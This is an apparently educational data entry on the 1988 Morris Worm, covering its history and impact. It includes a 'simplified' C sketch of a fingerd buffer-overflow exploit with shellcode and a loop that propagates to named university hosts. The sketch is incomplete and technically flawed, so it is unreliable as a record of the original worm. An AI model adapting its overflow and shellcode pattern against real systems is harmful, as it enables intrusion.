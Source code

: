 # id
morris-worm-1988

# title
The Morris Worm - First Internet Catastrophe

# what
The first major computer worm to spread across the Internet, created by Robert Tappan Morris in 1988. This self-replicating program infected approximately 10% of all computers connected to the Internet at the time (around 6,000 machines), causing widespread disruption and leading to the first conviction under the Computer Fraud and Abuse Act.

# impact
Exposed critical security vulnerabilities in Unix systems, led to the creation of the first Computer Emergency Response Team (CERT), and fundamentally changed how we think about Internet security. Caused millions of dollars in damages and sparked the modern cybersecurity industry.

# when
1988

# category
Cyber Security

# language
C

# codeSnippet
```c
/* Simplified version of Morris Worm finger exploit */
#include <stdio.h>
#include <string.h>
#include <sys/socket.h>

/* Buffer overflow exploit targeting fingerd */
void exploit_finger() {
    char buffer[512];
    char shellcode[] = "\x90\x90\x90\x90"  /* NOP sled */
                      "\x31\xc0\x50\x68"   /* execve("/bin/sh") */
                      "\x2f\x2f\x73\x68"
                      "\x68\x2f\x62\x69\x6e";
    
    /* Overflow the buffer to overwrite return address */
    memset(buffer, 'A', 400);
    strcat(buffer, shellcode);
    
    /* Send malicious request to fingerd */
    send_finger_request(buffer);
}

/* Worm propagation logic */
void propagate() {
    char *targets[] = {
        "berkeley.edu", "mit.edu", "stanford.edu"
    };
    
    for (int i = 0; i < 3; i++) {
        if (connect_to_host(targets[i])) {
            exploit_finger();
        }
    }
}
```

# sourceLink
https://www.fbi.gov/news/stories/morris-worm-30-years-since-first-major-attack-on-internet-110218

# expertExplanation
The Morris Worm used multiple attack vectors including buffer overflow exploits in fingerd, sendmail, and rsh. It used a dictionary attack on passwords and exploited trust relationships between machines. The worm's aggressive replication caused system slowdowns as multiple copies infected the same machines, revealing the fragility of early Internet infrastructure.
